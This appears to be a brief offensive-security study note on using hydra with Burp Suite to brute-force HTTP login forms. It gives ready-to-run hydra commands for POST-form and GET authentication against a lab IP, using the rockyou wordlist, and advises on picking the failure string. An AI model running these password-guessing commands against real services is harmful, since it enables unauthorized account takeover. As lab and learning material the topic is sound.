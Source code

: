```yaml
---
layout: post
title: HTTP Login Crack
titledate: 09/10/23
tags: ["infosec","offsec", "password", "hydra"]
---
```


#### HTTP Login Cracking

let's user hydra to try to brute force http form logins

For cracking user logins we can turn on burpsuite and enable intercept mode

from here we can capture a user login to get the required post arguments needed for hydra

#### http-post

    $ hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.50 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"

we pass the user or user list then the password or password list to hydra with the 3 arguments the uri page, the form arguments, and then a response message indicating a failed attempt

for the response message we do not want to include commonly recognized words like password or user

#### http-get

    $ hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.50.50 http-get